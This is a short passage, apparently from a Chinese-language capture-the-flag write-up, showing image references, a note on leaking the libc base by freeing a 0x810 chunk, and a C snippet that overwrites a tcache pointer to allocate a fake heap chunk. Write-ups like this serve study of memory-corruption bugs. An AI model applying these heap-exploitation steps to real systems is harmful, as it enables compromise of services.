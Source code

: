 ![](./img/11.png)
通过write（‘\n’）free掉0x810的chunk
![](./img/12.png)
这样可以泄漏libc基址了

```
close(conns[15]);
    close(conns[13]);
    yield();
    conns[13] = conn();
    yield();
    conns[14] = conn();
    yield();
    conns[15] = conn();
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();
    close(conns[13]);
    yield();

    // bug again: overwrite tcache pointer
    size_t addr = heapbase + OFFSET_HEAP;
    write(conns[15], &addr, 7);
    close(conns[14]);
    yield();

    // allocates fake chunk over filler chunk 5's header
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    ((size_t*)chunk)[0] = 0;
    ((size_t*)chunk)[1] = 0x811;
```